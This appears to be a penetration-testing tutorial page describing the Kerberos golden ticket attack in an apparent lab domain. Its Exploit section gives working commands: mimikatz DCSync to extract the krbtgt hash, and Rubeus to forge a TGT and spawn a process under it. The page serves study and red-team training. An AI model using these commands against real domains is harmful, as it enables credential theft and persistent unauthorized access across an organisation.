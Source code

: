 # Golden/Silver/Diamond Tickets

## Golden Ticket

A golden ticket is a type of attack where an attacker forge the TGT with a lifetime that does not expire. In essence, the attacker gains long-term access to a network by creating a TGT that appears to be legitimate. The golden ticket is signed by the krbtgt account thus it can be use to impersonate any user to any services or any machines within the domain.

### Attack Prerequisites

* Domain admin privilege
* Access to krbtgt password hash

### Purpose of Golden Ticket

The golden ticket attack is a post exploitation attack where an attacker has already compromise the domain admin account. It is primarily **used for host persistence** instead of privilege escalation.

With a golden ticket, attacker can persistently impersonate any user within the domain even if the compromised domain admin account credentials are updated or revoked.

### Exploit

```shell
mimikatz # lsadump::dcsync /domain:santaa.com /user:SANTAA\krbtgt
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/v5I2Hj6WU16k05UG-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe golden /aes256:[aes256_hmac] /user:"hui ann" /domain:santaa.com /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/tJTOwLeDDEw2mbWl-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:santaa /username:"hui ann" /password:ahahaa /ticket:[your ticket]
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/P9ycWqg18FAX29wo-image.png" alt=""><figcaption></figcaption></figure>

The process is successfully created:

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/e5P6sk7cofmJbqlu-image.png" alt=""><figcaption></figcaption></figure>
